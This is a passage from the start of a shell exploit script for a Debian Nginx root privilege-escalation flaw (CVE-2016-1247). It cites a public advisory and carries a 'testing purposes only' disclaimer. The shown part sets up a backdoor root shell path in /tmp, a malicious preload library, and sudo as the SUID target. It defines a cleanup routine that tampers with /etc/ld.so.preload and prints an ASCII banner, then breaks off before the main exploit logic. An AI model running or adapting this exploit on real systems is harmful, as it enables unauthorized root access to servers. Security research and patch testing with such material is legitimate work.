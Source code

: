 ```sh
# https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
#
# Video PoC:
# https://legalhackers.com/videos/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
#
#
# Disclaimer:
# For testing purposes only. Do no harm.
#

BACKDOORSH="/bin/bash"
BACKDOORPATH="/tmp/nginxrootsh"
PRIVESCLIB="/tmp/privesclib.so"
PRIVESCSRC="/tmp/privesclib.c"
SUIDBIN="/usr/bin/sudo"

function cleanexit {
	# Cleanup 
	echo -e "\n[+] Cleaning up..."
	rm -f $PRIVESCSRC
	rm -f $PRIVESCLIB
	rm -f $ERRORLOG
	touch $ERRORLOG
	if [ -f /etc/ld.so.preload ]; then
		echo -n > /etc/ld.so.preload
	fi
	echo -e "\n[+] Job done. Exiting with code $1 \n"
	exit $1
}

function ctrl_c() {
        echo -e "\n[+] Ctrl+C pressed"
	cleanexit 0
}

#intro 

cat <<_eascii_
 _______________________________
< Is your server (N)jinxed ? ;o >
 -------------------------------
           \ 
            \          __---__
                    _-       /--______
               __--( /     \ )XXXXXXXXXXX\v.  
             .-XXX(   O   O  )XXXXXXXXXXXXXXX- 
            /XXX(       U     )        XXXXXXX\ 
          /XXXXX(              )--_  XXXXXXXXXXX\ 
         /XXXXX/ (      O     )   XXXXXX   \XXXXX\ 
         XXXXX/   /            XXXXXX   \__ \XXXXX
         XXXXXX__/          XXXXXX         \__---->
 ---___  XXX__/          XXXXXX      \__         /
   \-  --__/   ___/\  XXXXXX            /  ___--/=
    \-\    ___/    XXXXXX              '--- XXXXXX
       \-\/XXX\ XXXXXX                      /XXXXX
         \XXXXXXXXX   \                    /XXXXX/
          \XXXXXX      >                 _/XXXXX/
            \XXXXX--__/              __-- XXXX/
             -XXXXXXXX---------------  XXXXXX-
                \XXXXXXXXXXXXXXXXXXXXXXXXXX/
                  ""VXXXXXXXXXXXXXXXXXXV""
_eascii_

```